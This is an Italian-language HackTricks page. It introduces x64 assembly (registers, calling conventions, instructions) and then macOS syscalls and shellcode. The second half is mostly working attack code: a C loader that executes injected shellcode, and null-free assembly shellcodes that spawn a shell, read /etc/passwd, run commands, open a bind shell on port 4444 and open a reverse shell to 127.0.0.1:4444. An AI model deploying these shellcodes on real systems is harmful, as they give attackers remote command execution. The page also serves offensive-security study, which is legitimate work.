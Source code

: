 # Introduzione a x64

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## **Introduzione a x64**

x64, noto anche come x86-64, è un'architettura di processore a 64 bit utilizzata prevalentemente nel computing desktop e server. Originata dall'architettura x86 prodotta da Intel e successivamente adottata da AMD con il nome AMD64, è l'architettura prevalente nei computer personali e nei server oggi.

### **Registri**

x64 si espande sull'architettura x86, presentando **16 registri a uso generale** etichettati `rax`, `rbx`, `rcx`, `rdx`, `rbp`, `rsp`, `rsi`, `rdi`, e `r8` fino a `r15`. Ognuno di questi può memorizzare un valore **a 64 bit** (8 byte). Questi registri hanno anche sottoregistri a 32 bit, 16 bit e 8 bit per compatibilità e compiti specifici.

1. **`rax`** - Tradizionalmente usato per i **valori di ritorno** dalle funzioni.
2. **`rbx`** - Spesso usato come **registro base** per operazioni di memoria.
3. **`rcx`** - Comunemente usato per **contatori di ciclo**.
4. **`rdx`** - Usato in vari ruoli, comprese le operazioni aritmetiche estese.
5. **`rbp`** - **Puntatore base** per il frame dello stack.
6. **`rsp`** - **Puntatore dello stack**, tiene traccia della cima dello stack.
7. **`rsi`** e **`rdi`** - Usati per gli **indici di sorgente** e **destinazione** nelle operazioni su stringhe/memoria.
8. **`r8`** a **`r15`** - Registri a uso generale aggiuntivi introdotti in x64.

### **Convenzione di Chiamata**

La convenzione di chiamata x64 varia tra i sistemi operativi. Ad esempio:

* **Windows**: I primi **quattro parametri** sono passati nei registri **`rcx`**, **`rdx`**, **`r8`**, e **`r9`**. Ulteriori parametri sono spinti nello stack. Il valore di ritorno è in **`rax`**.
* **System V (comunemente usato nei sistemi simili a UNIX)**: I primi **sei parametri interi o puntatori** sono passati nei registri **`rdi`**, **`rsi`**, **`rdx`**, **`rcx`**, **`r8`**, e **`r9`**. Il valore di ritorno è anch'esso in **`rax`**.

Se la funzione ha più di sei input, il **resto sarà passato nello stack**. **RSP**, il puntatore dello stack, deve essere **allineato a 16 byte**, il che significa che l'indirizzo a cui punta deve essere divisibile per 16 prima che avvenga qualsiasi chiamata. Questo significa che normalmente dovremmo assicurarci che RSP sia correttamente allineato nel nostro shellcode prima di effettuare una chiamata a funzione. Tuttavia, in pratica, le chiamate di sistema funzionano molte volte anche se questo requisito non è soddisfatto.

### Convenzione di Chiamata in Swift

Swift ha la sua **convenzione di chiamata** che può essere trovata in [**https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64**](https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64)

### **Istruzioni Comuni**

Le istruzioni x64 hanno un set ricco, mantenendo la compatibilità con le istruzioni x86 precedenti e introducendo nuove.

* **`mov`**: **Sposta** un valore da un **registro** o **posizione di memoria** a un altro.
* Esempio: `mov rax, rbx` — Sposta il valore da `rbx` a `rax`.
* **`push`** e **`pop`**: Spingere o estrarre valori da/verso lo **stack**.
* Esempio: `push rax` — Spinge il valore in `rax` nello stack.
* Esempio: `pop rax` — Estrae il valore superiore dallo stack in `rax`.
* **`add`** e **`sub`**: Operazioni di **addizione** e **sottrazione**.
* Esempio: `add rax, rcx` — Aggiunge i valori in `rax` e `rcx` memorizzando il risultato in `rax`.
* **`mul`** e **`div`**: Operazioni di **moltiplicazione** e **divisione**. Nota: queste hanno comportamenti specifici riguardo all'uso degli operandi.
* **`call`** e **`ret`**: Usati per **chiamare** e **ritornare dalle funzioni**.
* **`int`**: Usato per attivare un **interruzione** software. E.g., `int 0x80` era usato per le chiamate di sistema in Linux x86 a 32 bit.
* **`cmp`**: **Confronta** due valori e imposta i flag della CPU in base al risultato.
* Esempio: `cmp rax, rdx` — Confronta `rax` con `rdx`.
* **`je`, `jne`, `jl`, `jge`, ...**: Istruzioni di **salto condizionale** che cambiano il flusso di controllo in base ai risultati di un precedente `cmp` o test.
* Esempio: Dopo un'istruzione `cmp rax, rdx`, `je label` — Salta a `label` se `rax` è uguale a `rdx`.
* **`syscall`**: Usato per **chiamate di sistema** in alcuni sistemi x64 (come i moderni Unix).
* **`sysenter`**: Un'istruzione di **chiamata di sistema** ottimizzata su alcune piattaforme.

### **Prologo della Funzione**

1. **Spingi il vecchio puntatore base**: `push rbp` (salva il puntatore base del chiamante)
2. **Sposta il puntatore dello stack corrente al puntatore base**: `mov rbp, rsp` (imposta il nuovo puntatore base per la funzione corrente)
3. **Alloca spazio nello stack per le variabili locali**: `sub rsp, <size>` (dove `<size>` è il numero di byte necessari)

### **Epilogo della Funzione**

1. **Sposta il puntatore base corrente al puntatore dello stack**: `mov rsp, rbp` (dealloca le variabili locali)
2. **Estrai il vecchio puntatore base dallo stack**: `pop rbp` (ripristina il puntatore base del chiamante)
3. **Ritorna**: `ret` (restituisce il controllo al chiamante)

## macOS

### syscalls

Ci sono diverse classi di syscalls, puoi [**trovarle qui**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/osfmk/mach/i386/syscall\_sw.h)**:**
```c
#define SYSCALL_CLASS_NONE	0	/* Invalid */
#define SYSCALL_CLASS_MACH	1	/* Mach */
#define SYSCALL_CLASS_UNIX	2	/* Unix/BSD */
#define SYSCALL_CLASS_MDEP	3	/* Machine-dependent */
#define SYSCALL_CLASS_DIAG	4	/* Diagnostics */
#define SYSCALL_CLASS_IPC	5	/* Mach IPC */
```
Poi, puoi trovare ogni numero di syscall [**in this url**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/bsd/kern/syscalls.master)**:**
```c
0	AUE_NULL	ALL	{ int nosys(void); }   { indirect syscall }
1	AUE_EXIT	ALL	{ void exit(int rval); }
2	AUE_FORK	ALL	{ int fork(void); }
3	AUE_NULL	ALL	{ user_ssize_t read(int fd, user_addr_t cbuf, user_size_t nbyte); }
4	AUE_NULL	ALL	{ user_ssize_t write(int fd, user_addr_t cbuf, user_size_t nbyte); }
5	AUE_OPEN_RWTC	ALL	{ int open(user_addr_t path, int flags, int mode); }
6	AUE_CLOSE	ALL	{ int close(int fd); }
7	AUE_WAIT4	ALL	{ int wait4(int pid, user_addr_t status, int options, user_addr_t rusage); }
8	AUE_NULL	ALL	{ int nosys(void); }   { old creat }
9	AUE_LINK	ALL	{ int link(user_addr_t path, user_addr_t link); }
10	AUE_UNLINK	ALL	{ int unlink(user_addr_t path); }
11	AUE_NULL	ALL	{ int nosys(void); }   { old execv }
12	AUE_CHDIR	ALL	{ int chdir(user_addr_t path); }
[...]
```
Quindi, per chiamare la syscall `open` (**5**) dalla **classe Unix/BSD** è necessario aggiungerla: `0x2000000`

Quindi, il numero della syscall per chiamare open sarebbe `0x2000005`

### Shellcodes

Per compilare:

{% code overflow="wrap" %}
```bash
nasm -f macho64 shell.asm -o shell.o
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib
```
{% endcode %}

Per estrarre i byte:

{% code overflow="wrap" %}
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/b729f716aaf24cbc8109e0d94681ccb84c0b0c9e/helper/extract.sh
for c in $(objdump -d "shell.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n '\\x'$c
done

# Another option
otool -t shell.o | grep 00 | cut -f2 -d$'\t' | sed 's/ /\\x/g' | sed 's/^/\\x/g' | sed 's/\\x$//g'
```
{% endcode %}

<details>

<summary>Codice C per testare lo shellcode</summary>
```c
// code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/loader.c
// gcc loader.c -o loader
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>

int (*sc)();

char shellcode[] = "<INSERT SHELLCODE HERE>";

int main(int argc, char **argv) {
printf("[>] Shellcode Length: %zd Bytes\n", strlen(shellcode));

void *ptr = mmap(0, 0x1000, PROT_WRITE | PROT_READ, MAP_ANON | MAP_PRIVATE | MAP_JIT, -1, 0);

if (ptr == MAP_FAILED) {
perror("mmap");
exit(-1);
}
printf("[+] SUCCESS: mmap\n");
printf("    |-> Return = %p\n", ptr);

void *dst = memcpy(ptr, shellcode, sizeof(shellcode));
printf("[+] SUCCESS: memcpy\n");
printf("    |-> Return = %p\n", dst);

int status = mprotect(ptr, 0x1000, PROT_EXEC | PROT_READ);

if (status == -1) {
perror("mprotect");
exit(-1);
}
printf("[+] SUCCESS: mprotect\n");
printf("    |-> Return = %d\n", status);

printf("[>] Trying to execute shellcode...\n");

sc = ptr;
sc();

return 0;
}
```
</details>

#### Shell

Preso da [**qui**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) e spiegato.

{% tabs %}
{% tab title="con adr" %}
```armasm
bits 64
global _main
_main:
call    r_cmd64
db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
xor     rdx, rdx          ; store null arg3
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{% endtab %}

{% tab title="con stack" %}
```armasm
bits 64
global _main

_main:
xor     rdx, rdx          ; zero our RDX
push    rdx               ; push NULL string terminator
mov     rbx, '/bin/zsh'   ; move the path into RBX
push    rbx               ; push the path, to the stack
mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{% endtab %}
{% endtabs %}

#### Leggi con cat

L'obiettivo è eseguire `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, quindi il secondo argomento (x1) è un array di parametri (che in memoria significa uno stack degli indirizzi).
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"

; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
push rsi   ; Add "/etc/passwd" to the stack (arg0)
push rdi   ; Add "/bin/cat" to the stack (arg1)

; Set in the 2nd argument of exec the addr of the array
mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)

push    59      ; put 59 on the stack (execve syscall)
pop     rax     ; pop it to RAX
bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```
#### Esegui comando con sh
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 32           ; Create space on the stack

; Argument array
lea rdi, [rel touch_command]
push rdi                      ; push &"touch /tmp/lalala"
lea rdi, [rel sh_c_option]
push rdi                      ; push &"-c"
lea rdi, [rel sh_path]
push rdi                      ; push &"/bin/sh"

; execve syscall
mov rsi, rsp                  ; rsi = pointer to argument array
xor rdx, rdx                  ; rdx = NULL (no env variables)
push    59                    ; put 59 on the stack (execve syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

_exit:
xor rdi, rdi                  ; Exit status code 0
push    1                     ; put 1 on the stack (exit syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```
#### Bind shell

Bind shell da [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) in **porta 4444**
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xffffffffa3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; bind(host_sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x68
syscall

; listen(host_sockid, 2)
xor  rsi, rsi
mov  sil, 0x2
mov  rax, r8
mov  al, 0x6a
syscall

; accept(host_sockid, 0, 0)
xor  rsi, rsi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x1e
syscall

mov rdi, rax
mov sil, 0x3

dup2:
; dup2(client_sockid, 2)
;   -> dup2(client_sockid, 1)
;   -> dup2(client_sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
mov  rax, r8
mov  al, 0x3b
syscall
```
#### Reverse Shell

Reverse shell da [https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html). Reverse shell a **127.0.0.1:4444**
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xfeffff80a3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; connect(sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x62
syscall

xor rsi, rsi
mov sil, 0x3

dup2:
; dup2(sockid, 2)
;   -> dup2(sockid, 1)
;   -> dup2(sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x3b
syscall
```
{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
